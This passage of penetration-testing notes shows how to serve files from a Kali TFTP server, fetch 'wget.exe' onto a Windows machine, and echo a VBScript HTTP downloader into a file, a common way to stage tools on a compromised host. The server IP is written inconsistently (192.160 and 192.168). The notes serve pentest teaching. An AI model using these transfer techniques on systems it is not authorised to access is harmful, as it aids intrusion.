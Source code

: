 Kali has a TFTP server build in.  
You can server up some files with it like this

```text
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```text
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this:

```text
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```text
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
